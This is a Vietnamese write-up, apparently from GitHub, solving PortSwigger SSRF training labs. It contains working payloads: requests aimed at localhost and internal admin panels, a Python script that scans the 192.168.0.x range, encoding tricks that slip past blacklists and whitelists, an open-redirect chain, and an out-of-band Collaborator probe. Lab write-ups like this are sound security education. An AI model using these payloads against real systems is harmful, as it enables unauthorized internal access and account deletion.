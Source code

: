 # SSRF
 
 ![image](https://user-images.githubusercontent.com/68894302/168491975-142046e7-d00b-4f93-bfbc-d63668827917.png)

 
## Lab: Basic SSRF against the local server
 
Thông thường chúng ta không thể truy cập vào chức năng quản trị viên ví dụ như /admin khi chưa được xác thực. Nhưng khi truy cập vào URL /admin từ localhost thì một số kiểm tra có thể bị bỏ qua:
 
```
POST /product/stock HTTP/1.1
Host: ac811fc91fa9cb6bc0ec9237009000c1.web-security-academy.net
 
stockApi=http://127.0.0.1/admin
 
 
HTTP/1.1 200 OK
 
<a href="/admin/delete?username=carlos">Delete</a>
```
 
như phản hồi ta thấy server đã fetch lại nội dung trong /admin và trả lại cho người dùng, từ đó ta xóa người dùng carlos và giải quyết thử thách
 
Note:
 
Tại sao các ứng dụng hoạt động theo cách này và mặc nhiên tin tưởng các yêu cầu đến từ máy cục bộ?  Điều này có thể phát sinh vì nhiều lý do:
+ Access control có thể được triển khai trong một thành phần khác nằm phía front-end của server. Khi một kết nối được thực hiện trở lại chính máy chủ, việc kiểm tra sẽ bị bỏ qua.
+ Với mục đích recovery thảm họa, ứng dụng có thể cho phép truy cập quản trị mà không cần đăng nhập, cho bất kỳ người dùng nào đến từ máy cục bộ. Điều này cung cấp một cách để quản trị viên khôi phục hệ thống trong trường hợp họ mất thông tin đăng nhập. Giả định ở đây là chỉ một người dùng hoàn toàn đáng tin cậy mới đến trực tiếp từ chính máy chủ.
+ Giao diện quản trị có thể đang lắng nghe trên một số port khác vì thế người dùng có thể không truy cập trực tiếp được.
 
---
## Lab: Basic SSRF against another back-end system
 
### Description
Phòng thí nghiệm này có tính năng kiểm tra kho, lấy dữ liệu từ hệ thống nội bộ.
 
Để giải quyết phòng thí nghiệm, hãy sử dụng chức năng kiểm tra kho để quét phạm vi 192.168.0.X nội bộ để tìm giao diện quản trị trên cổng 8080, sau đó sử dụng chức năng này để xóa carlos của người dùng.
 
### Analysis
 
Có một loại mối quan hệ khác thường phát sinh SSRF là khi máy chủ có thể tương tác với các hệ thống back-end khác mà người dùng có thể truy cập trực tiếp. Các hệ thống này thường có địa chỉ ip private không thể định tuyến được. Vì thế trong một số trường hợp SSRF chúng ta cần tìm ra địa chỉ ip của máy chủ để thực hiện exploit.
 
Dưới đây là script để tìm IP
```python
 
import requests
 
URL = 'https://ac771f041f635a7cc0a9310100a90041.web-security-academy.net/product/stock'
cookies = {'session': 'OKHuNr4TQlvXPTluBx79JBlrWoXUQGAs',}
 
for i in range(1,256):
    data = {
    'stockApi': f'http://192.168.0.{i}:8080/admin'
    }
 
    r  = requests.post(URL, cookies=cookies, data=data)
    if r.status_code == 200: # response 500 server error is not ip correct
        print (i, "OK")
        break
    else:
        print(i, "Fail")
 
```
 
```
110 Fail
111 Fail
112 Fail
113 Fail
114 Fail
115 Fail
116 Fail
117 OK
```
=> địa chỉ ip của server là 192.168.0.117
```
POST /product/stock HTTP/1.1
Host: ac771f041f635a7cc0a9310100a90041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
 
stockApi=http://192.168.0.117:8080/admin/delete?username=carlos
```
 
---
 
## Lab: SSRF with blacklist-based input filter

Challenge này có blacklist có thể chứa

```
127.0.0.1
admin
```
Chúng ta có thể bypass địa chỉ 127.0.0.1 bằng cách dùng short url loại bỏ đi một số kí tự 0. Bypass `a` bằng cách dùng url double encode %25%36%31

payload cuối cùng là:
```
stockApi=http://127.0.1/%25%36%31dmin
```

Sau đó phản hồi đưa chúng ta đến với trang quản trị admin panel
```
<div>
<span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
<div>
```
Sau đó xóa tên carlos và giải quyết challenge. Kí tự `a` trong carlos cũng phải double encode để bypass.

```
POST /product/stock HTTP/1.1
Host: ac181f661f9946c1c05d8a4f007d0065.web-security-academy.net

stockApi=http://127.0.1/%25%36%31dmin/delete?username=c%25%36%31rlos


HTTP/1.1 302 Found
Location: /admin
```

---

## Lab: SSRF with filter bypass via open redirection vulnerability

Challenge tồn tại SSRF và lỗ hổng chuyển hướng mở, xâu chuỗi 2 cái này lại và ta có thể chuyển hướng đến trang của quản trị viên
Đầu tiên lỗ hổng open redirect khi chúng ta chọn "Next Product", URL trả về như sau:

```
GET /product/nextProduct?currentProductId=3&path=/product?productId=4 HTTP/1.1
```
Nhận thấy rằng tất cả những gì được đặt vào tham số path đều được chuyển hướng

```
GET /product/nextProduct?currentProductId=10&path=https://google.com HTTP/1.1

HTTP/1.1 302 Found
Location: https://google.com
```

Nên sau khi đặt payload SSRF và kết hợp open redirect chúng ta có thể chuyển đến admin

```
POST /product/stock HTTP/1.1

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin


HTTP/1.1 200 OK

<a href="/admin">Admin panel</a>
<a href="/http://192.168.0.12:8080/admin/delete?username=carlos">Delete</a>
```

Xóa người dùng carlos để giải quyết challenge.

```
<p>User deleted successfully!</p>
```

---

## Lab: Blind SSRF with out-of-band detection

Cách dễ dàng để phát hiện blind ssrf nhất là dùng kĩ thuật oob. Kĩ thuật này liên quan đến việc cố gắng kích hoạt một yêu cầu HTTP đến một hệ thống bên ngoài mà chúng ta kiểm soát và giám sát các tương tác mạng với hệ thống đó.

Khi thực hiện các yêu cầu tài nguyên đối với một miền khác, Referer header chứa địa chỉ của trang sử dụng tài nguyên được yêu cầu. Chúng ta sẽ chèn vào header này một url trong trường hợp này dùng burp collaborator vì challenge không cho phép chèn url của bên thứ 3.

Quan sát phản hồi sau khi Poll có phần secret:
```
GET /product?productId=1 HTTP/1.1
Host: ac7d1f681e764ed7c01215bf000600bf.web-security-academy.net
Referer: https://deviuoqyjyfmx3a9bjn0ufjllcr2fr.burpcollaborator.net

--> sau khi poll

<html>
<body>x8yo2lsoga95yt249z7zyuzjigz</body>
</html>
```

---

## Lab: SSRF with whitelist-based input filter

Với whitelist chúng ta có thể kết hợp các kĩ thuật lại với nhau: 
+ Nhúng thông tin đăng nhập trước tên máy chủ sử dụng `@`
Ví dụ: https://user@host_evil
+ Dùng kí tự `#` để chỉ ra một phân đoạn url
Ví dụ: https://host_evil#foo
+ encode url để gây nhầm lẫn với trình phân tích cú pháp url

Đầu tiên thử một yêu cầu tới 127.0.0.1 chúng ta nhận thấy stock.weliketoshop.net phải được bao gồm trong request
![image](https://user-images.githubusercontent.com/68894302/168491260-d9efcaad-ba33-496d-8592-d6a45d7e64dd.png)

Thêm` `user@` vào để kiểm tra xem ứng dụng có chấp nhận thông tin đăng nhập không
![image](https://user-images.githubusercontent.com/68894302/168491349-d6217667-5bc1-48a1-9877-e3fa5ab6c65a.png)

Sử dụng dấu `#` để chỉ ra phân đoạn url, nhưng bị filter nên bỏ qua bằng cách double encode url thành %2523. Thay thế tên đăng nhập bằng địa chỉ localhost và quan sát phản hồi
![image](https://user-images.githubusercontent.com/68894302/168491892-3b8211b5-22ab-47e9-a73f-dca10b32e183.png)

Xóa người dùng carlos và giải quyết challenge
![image](https://user-images.githubusercontent.com/68894302/168491954-6ccdacd1-3c30-426b-8ed3-78ae84fa15b1.png)









